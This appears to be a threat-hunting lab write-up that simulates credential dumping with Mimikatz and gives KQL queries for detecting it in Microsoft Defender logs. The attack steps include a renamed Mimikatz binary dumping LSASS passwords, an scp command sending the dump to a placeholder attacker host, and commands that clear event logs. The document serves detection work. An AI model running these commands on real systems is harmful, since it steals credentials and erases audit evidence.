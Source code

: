 # Threat Event (Credential Dumping with Mimikatz)
**Unauthorized Execution of Mimikatz**

## Steps the "Bad Actor" took to Create Logs and IoCs:
1. Download Mimikatz:
  - Obtained mimikatz_master.zip from a known repository or a malicious link (e.g., https://github.com/ParrotSec/mimikatz)
  - Extracted it to a temporary folder: C:\Users\<User>\AppData\Temp\Local\mimikatz-master\
2. Execute Mimikatz:
  - Renamed the binary "mimikatz.exe" to "mimi64.exe" to evade basic file-name detections.
  - Ran Mimikatz with typical arguments to dump credentials from LSASS:
    ```mimi64.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > C:\Users\<User>\AppData\Local\Temp\creddump.txt```
3. Exfiltration of the dumped credentials:
  - Attacker attempts to upload creddump.txt to a remote host.
    ```scp C:\Users\<User>\AppData\Local\Temp\creddump.txt <threat-actor>@<threat-host>:/home/<threat-actor>```
4. Cleanup:
  - Clears PowerShell or Windows Event Logs to hide evidence of unauthorized usage.
    ```Remove-Item "C:\Users\<User>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt"```
    ```wevtutil cl Application```
    ```wevtutil cl Security```
    ```wevtutil cl System```

---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used for detecting the download of the Mimikatz ZIP or EXE file, as well as any credential dump files created.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect the Mimikatz process creation (mimi64.exe), command-line arguments, and any subsequent processes launched.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| If Mimikatz or a related script attempts to exfiltrate the credential dump file, these logs can detect unusual outbound traffic.|

---

## Related Queries:
```kql
// 1. Detect known Mimikatz file downloads or suspicious file name patterns
DeviceFileEvents
| where FileName has_any ("mimikatz", "mimi", "katz", "mk")
| project Timestamp, DeviceName, FileName, FolderPath, ActionType, InitiatingProcessAccountName

// 2. Identify Mimikatz execution via typical file names or rename attempts
DeviceProcessEvents
| where FileName in ("mimikatz", "mimi", "katz", "mk")
    or ProcessCommandLine has_any ("mimikatz", "mimi", "katz", "sekurlsa::logonpasswords", "privilege::debug")
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine, ActionType

// 3. Detect creation of the credential dump file (e.g. creddump.txt)
DeviceFileEvents
| where FileName has_any("creddump.txt", "creds.txt", "dump.txt", "lsass.txt")
| project Timestamp, DeviceName, FileName, ActionType, FolderPath, InitiatingProcessCommandLine

// 4. Look for unusual outbound connections that might indicate data exfiltration
DeviceNetworkEvents
| where InitiatingProcessFileName in ("mimikatz.exe", "mimi64.exe", "mimi.exe", "powershell.exe")
| where RemoteIP != "InternalIPs"  // Adjust for your environment's internal IP ranges
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessFileName, RemoteIP, RemotePort, RemoteUrl
| order by Timestamp desc

// 5. Check for event log clearing after Mimikatz usage
DeviceProcessEvents
| where ProcessCommandLine has_any ("wevtutil", "Clear-EventLog")
| project Timestamp, DeviceName, AccountName, ProcessCommandLine, ActionType
```

---

## Created By:
- **Author Name**: Clay Hickman
- **Author Contact**: https://www.linkedin.com/in/clay-h-980ba5262
- **Date**: February 26, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `February 26, 2025`  | `Clay Hickman`   
